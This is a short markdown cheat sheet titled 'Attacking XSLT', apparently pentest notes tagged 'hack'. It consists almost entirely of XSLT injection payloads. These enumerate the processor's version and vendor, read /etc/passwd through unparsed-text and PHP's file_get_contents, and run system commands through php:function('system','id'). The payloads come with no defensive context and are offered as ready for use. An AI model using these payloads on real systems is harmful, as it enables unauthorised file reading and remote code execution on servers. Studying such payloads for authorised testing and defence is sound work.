 ```yaml
---
tags:
  - hack
---
```

# Attacking XSLT

Injection for enumeration:

```text
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

LFI (XSLT 2.0 only):

```text
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

LFI using PHP function:

```text
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

RCE:

```text
<xsl:value-of select="php:function('system','id')" />
```